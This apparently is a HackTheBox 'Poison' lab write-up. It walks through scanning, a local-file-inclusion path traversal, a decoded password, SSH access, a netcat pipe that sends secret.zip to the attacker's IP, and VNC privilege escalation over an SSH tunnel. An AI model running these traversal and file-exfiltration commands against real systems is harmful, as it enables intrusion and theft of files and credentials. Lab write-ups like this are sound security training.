 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.84 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/1.png">

# Enumeration
We can view several scripts. One in particular looks promising as it shows a reference to pwdbackup.txt.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/3.png">

The content gives us as multiple encoded string.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/4.png">

After decoding it 13 times we get a password:
```
Charix!2#4%6&8(0
```

We try if we can use local file inclusion on the /etc/passwd file. We learn that root and charix will have a bash available.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/2.png">

# Initial Foothold
Now we have a username and password we will try to connect with SSH:
```
ssh charix@10.10.10.84
```

We spot secret.zip and try to download it abusing the lfi vulnerability:
```
wget "http://10.10.10.84/browse.php?file=../../../../../../../home/charix/secret.zip"
```
That didn't work. Probably because the web user isn't charix and therefore we can't access his files. Netcat is available on the host. Let's use it to transfer the file.
```
nc -nlvp 4444 > secret.zip
```
```
cat secret.zip | nc 10.10.14.9 4444
```
We unzip the password protected zipfile with the previously found password. It contains a file named secret. Running it through ```strings``` and ```file``` didn't gave me much info on the file.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/5.png">

# Privilege Escalation
After some digging around we see that there are two services running on port 5801 and 5901. Google tells us that they are used by vnc.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/6.png">

But we can't access them directly, otherwise they would have popped up during the nmap scan.
We can however tunnel the traffic with port forwarding.

```
ssh -L 5901:localhost:5901 -N -f -l charix 10.10.10.84 
```
Now we can setup a vnc connection with the target. This is where the secret file comes in handy as we can pass it as parameter.
```
vncviewer localhost:5901 -passwd secret
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Poison/assets/7.png">





